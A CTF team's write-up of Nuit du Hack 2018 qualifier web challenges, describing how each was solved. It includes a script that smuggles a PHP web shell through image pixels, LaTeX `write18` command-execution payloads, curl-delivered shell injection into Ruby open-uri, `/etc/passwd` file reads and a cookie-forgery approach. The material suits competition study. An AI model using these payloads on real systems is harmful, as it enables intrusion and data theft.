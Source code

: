 # Nuit du Hack CTF Quals 2018


**It's recommended to read our responsive [web version](https://balsn.github.io/ctf_writeup/20180330-nuitduhackctf/) of this writeup.**


 - [Nuit du Hack CTF Quals 2018](#nuit-du-hack-ctf-quals-2018)
   - [Pwn](#pwn)
   - [reverse](#reverse)
   - [Web](#web)
     - [PixEditor (bookgin)](#pixeditor-bookgin)
     - [Linked Out (bookgin)](#linked-out-bookgin)
     - [Crawl Me Maybe (unsolved, written by bookgin)](#crawl-me-maybe-unsolved-written-by-bookgin)
     - [CoinGame (bookgin)](#coingame-bookgin)
     - [WaWaCoin (unsolved, written by bookgin)](#wawacoin-unsolved-written-by-bookgin)
     - [Cryptolol (solved by sasdf)](#cryptolol-solved-by-sasdf)



## Pwn 

## reverse

## Web

### PixEditor (bookgin)

In this challenge, we can POST a list of RGBA pixels, with specific format JPG, PNG, BMP, GIF. After sending the request to the server, we can download the image we just uploaded. The filename will remain the same.

```
data=[255,0,0...]
name=image.JPG
format=JPG
```

My intuition is to upload a web shell. However, I've tried lot of filenames but they all failed. It seems the filename is properly parsed by php `basename()`.

Next, I wonder what will happend if I'm trying to create a filename which is longer than 255 bytes, because the [maximum filename length](https://en.wikipedia.org/wiki/Comparison_of_file_systems#Limits) for `ext4` is 255. To my surprise, a filename with only 55 bytes gets truncated!

- POST filename `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz.bmp`
- The server saves the file as `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwx`

The rest is trivial. We just need to manipulate the pixels to create a web shell. Pleases check my script for details.

```python=
#!/usr/bin/env python3
# Python 3.6.4
import requests
import json

payload = '''<?php
system($_GET["j"]);'''

bmp = []
for i in range(0, len(payload), 3):
    bmp += list(payload[i:i+3].encode())[::-1] + [0x00]
bmp += [0 for _ in range(4096 - len(bmp))]
payload = dict(
    data=json.dumps(bmp),
    name='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRST.phpXYZ.BMP',
    format='BMP'
)
print(requests.post('http://pixeditor.challs.malice.fr/save.php', data=payload).text)
```

Just `j=cat /flag` and win.

After I already got the flag, one of my teammate found this in the javascript. However, I didn't notice that.

`inputName.maxLength = 45; // 50 - Len(Extension) - Filename will be truncated if len > 50`

### Linked Out (bookgin)

We can upload a YAML config file, and the website will render the content through LaTeX.

Our first try is to insert some latex syntax `\texttt{GG} \textbf{greatest}`. It gets rendered.

How about some evil RCE latex syntax?

```
\immediate\write18{ls > aaa.txt}
\input{aaa.txt}
```

We soon found the flag is in `/flag`. Nevertheless, we fail to cat it out. We only got a parsing error. That's weird as I'm sure we have read permission via `ls -all /flag`.

After a few tries, we found `cat Makefle`, `pwd` are giving us parsing error. I wonder if there is a WAF. A quick PoC `echo NDH` and `echo a` solves the mystery - it's WAFed. The underscore is WAFed as well.

So we just bypass it with powerful `sed`. Here is the payload:

```yaml=
- '\immediate\write18{cat /flag | sed "s/_/Q/g" | sed "s/NDH/WWW/g"> see}'
- '\input{see}'
```

### Crawl Me Maybe (unsolved, written by bookgin)

The website will crawl the user-provided URL and displays the content. A quick test `url[]=` leads to an error which leaks the ruby source code:

```ruby
require 'open-uri'
require 'nokogiri'


set :bind, '0.0.0.0'
set :port, 8080


get '/' do
  @title = 'Crawl Me Maybe!'
  erb :index
end

post '/result' do
  @title = 'Crawl Me Maybe!'
  url = params["url"]

  if /sh|dash|bash|rbash|zsh/.match(url) || url.match('flag') || url.match('txt') || url.index('*') != nil || (url.index('|') != nil && !(url.index('cat') != nil || url.index('ls') != nil))
    @result = "Attack detected"
    erb :error
  else
    begin
      page = open(url)
    rescue StandardError => e
      @result = "Invalide url"
      erb :error
    else
      begin
        page = Nokogiri::HTML(page) { |config| config.strict }
        @result = "Page well formed !"
        @content = page.text
        erb :result
      rescue Nokogiri::HTML::SyntaxError => e
        @result = "caught exception: #{e}"
        erb :error
      end
    end
  end
end
```

1. `open-uri` is very dangerous. `open('| ls')` results in RCE, while `open('/etc/passwd')` results in local file leaks.
2. CHECK THE WAF CAREFULLY (we fail to do so). It seems working, but in fact, `| ls` is still a valid payload.

Payload:
```shell=
# locate the flag
$ curl 'http://crawlmemaybe.challs.malice.fr/result' --data 'url=| ls >/dev/null; find / | grep fla'
/home/challenge/src/.flag.txt

# get the flag
$ curl 'http://crawlmemaybe.challs.malice.fr/result' --data 'url=| ls >/dev/null; cat /home/challenge/src/.fla?.t?t'
NDH{CUrly_Ruby_J3p53n}
```


This one is acctually very simple, but we are too tired to solve this...... Never stay up late playing CTf, guys.


### CoinGame (bookgin)

The website is a online `curl` service, with PHP as the backend.

`file:///etc/passwd` still works lika a charm, and what's more intriguing is that there is a user named `tftp`.

Let's get information as more as possible:

- source code: `file:///var/www/html/curl.php`
    - PHP curl: We can use `gopher`, though it's useless in the challenge. Refer to [SSRF bible](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit).
- OS: file:///etc/os-release
- tftp config file: `file:///etc/default/tftpd-hpa`
```
# /etc/default/tftpd-hpa
 
TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/home/CoinGame"
TFTP_ADDRESS="0.0.0.0:69"
TFTP_OPTIONS="--secure --create"
```

Nevertheless, we are not able to connect to the tftp remotely. Then, we tried to dig some files under `/home/CoinGame` but none of them works. We got stuck here.......

Suddenly, there arises inspiration in my mind. I start googling the author `Designed by totheyellowmoon`, accidently finding that he has only one repo, which is named `CoinGame`.

Next, just crawl all the contents thorugh `file:///home/CoinGame/README.md` .... and diff with the repo. We found lots of images are not the same, and they contatins the flag.

Hmm, I don't think this challenge is well-designed.

### WaWaCoin (unsolved, written by bookgin)

In the login page, if the username doesn't not exist, we'll get `bad username`. Then, through a quick enumeration we found `admin` exists.

In the manager page, we are set a cookie by the server, `session=757365723d64656d6f|9183ff6055a46981f2f71cd36430ed3d9cbf6861`. The first part is `user=demo` in hex, and the second part is a 20 bytes SHA1-hash. Manipulating the `user=admin` gets nothing, as the second part SHA1 seems like a signature. Therefore, the server will validate the signature and the first part.

Later we found the category of the problem is updated to `crypto/web`, so length extension attack comes to my mind.

However, we only send the payload to `/stealmoney` and `/login`. What's worse, we doesn't follow the redirect. In fact, one of the payload readlly works, but we send to the wrong API. Sending to `/stealmoney` will always redirect you to other page. The correct one is `/manager`.

You can check [@Becojo's script](https://gist.github.com/Becojo/17dbd49b5e8f25d9d7534afc2ed76c64) for more detail. It seems that appending `;user=admin` or `&user=admin` both works.

@sasdf, @sces60107 and I acctually spent 6+ hours on the frustrating challenge (sob).

### Cryptolol (solved by sasdf)

To be completed
